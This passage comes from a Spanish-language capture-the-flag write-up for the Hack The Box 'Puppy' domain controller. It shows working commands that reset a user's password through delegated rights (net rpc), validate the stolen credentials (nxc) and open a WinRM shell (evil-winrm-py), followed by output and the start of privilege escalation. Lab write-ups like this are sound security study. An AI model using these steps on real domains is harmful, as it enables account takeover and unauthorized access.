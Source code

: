 ### Changing Password

Como tenemos derechos de control total sobre `adam.silver`, cambiaremos su contraseña

~~~ bash
net rpc password "adam.silver" "newP@ssword2025" -U 'puppy.htb/ant.edwards%Antman2025!' -S dc.puppy.htb
~~~

Si ahora validamos las nuevas credenciales, lograremos autenticarnos correctamente

~~~ bash
nxc smb DC.puppy.htb -u 'adam.silver' -p 'newP@ssword2025'                                             
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\adam.silver:newP@ssword2025
~~~


## Shell as `adam.silver`

Con la cuenta habilitada y una nueva contraseña asignada, podemos conectarnos por `winrm` al DC utilizando las nuevas credenciales de `adam.silver`

~~~ bash
evil-winrm-py -i DC.puppy.htb -u 'adam.silver' -p 'newP@ssword2025'
        ▘▜      ▘             
    █▌▌▌▌▐ ▄▖▌▌▌▌▛▌▛▘▛▛▌▄▖▛▌▌▌
    ▙▖▚▘▌▐▖  ▚▚▘▌▌▌▌ ▌▌▌  ▙▌▙▌
                          ▌ ▄▌ v1.1.2
[*] Connecting to DC.puppy.htb:5985 as adam.silver
evil-winrm-py PS C:\Users\adam.silver\Documents> whoami
puppy\adam.silver
~~~

En este punto ya podremos ver la flag del usuario sin privilegios

~~~ powershell
evil-winrm-py PS C:\Users\adam.silver\Documents> type ..\Desktop\user.txt
d07...
~~~
<br>


# Escalada de Privilegios
---
## Credentials Leakage

Navegando por el sistema de archivos, encontraremos una carpeta `Backups`, y dentro de ella veremos un archivo `.zip` que al parecer es una copia de seguridad de un sitio web

~~~ powershell
evil-winrm-py PS C:\Users\adam.silver\Documents> dir C:\

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          4/4/2025   3:40 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---         5/20/2025   3:21 AM                Users
d-----         5/13/2025   4:40 PM                Windows
~~~